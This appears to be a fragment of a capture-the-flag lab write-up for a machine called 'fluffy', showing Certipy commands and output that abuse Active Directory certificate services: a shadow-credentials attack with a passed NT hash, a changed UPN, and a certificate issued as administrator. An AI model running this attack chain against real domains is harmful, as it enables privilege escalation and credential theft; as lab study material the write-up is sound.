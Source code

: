 
Already have this from Rubeus


```python
!certipy shadow auto -u winrm_svc@fluffy.htb -hashes :33bd09dcd697600edf6b3a7af4875767 -account ca_svc
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Targeting user 'ca_svc'
    [*] Generating certificate
    [*] Certificate generated
    [*] Generating Key Credential
    [*] Key Credential generated with DeviceID 'f82c51b2-4c5d-d1d4-2ea7-e9f2dad17d94'
    [*] Adding Key Credential with device ID 'f82c51b2-4c5d-d1d4-2ea7-e9f2dad17d94' to the Key Credentials for 'ca_svc'
    [*] Successfully added Key Credential with device ID 'f82c51b2-4c5d-d1d4-2ea7-e9f2dad17d94' to the Key Credentials for 'ca_svc'
    [*] Authenticating as 'ca_svc' with the certificate
    [*] Using principal: ca_svc@fluffy.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'ca_svc.ccache'
    [*] Trying to retrieve NT hash for 'ca_svc'
    [*] Restoring the old Key Credentials for 'ca_svc'
    [*] Successfully restored the old Key Credentials for 'ca_svc'
    [*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8



```python
!certipy account update -u winrm_svc@fluffy.htb -hashes :33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn administrator
```
```
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Updating user 'ca_svc':
        userPrincipalName                   : administrator
    [*] Successfully updated 'ca_svc'
```
Ran this twice after connection timeout

```python
!certipy req -u ca_svc@fluffy.htb -hashes :CA0F4F9E9EB8A092ADDF53BB03FC98C8 -ca fluffy-DC01-CA -target fluffy.htb
```
```
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 19
    [*] Got certificate with UPN 'administrator'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'
```
